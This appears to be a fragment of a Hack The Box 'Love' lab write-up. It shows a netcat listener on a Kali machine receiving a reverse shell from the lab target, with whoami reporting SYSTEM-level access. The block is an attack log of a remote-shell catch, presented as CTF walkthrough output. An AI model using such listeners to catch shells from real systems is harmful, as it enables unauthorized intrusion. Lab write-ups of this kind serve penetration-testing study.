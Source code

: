 ```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4446 
[sudo] password for kali: 
listening on [any] 4446 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50995
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```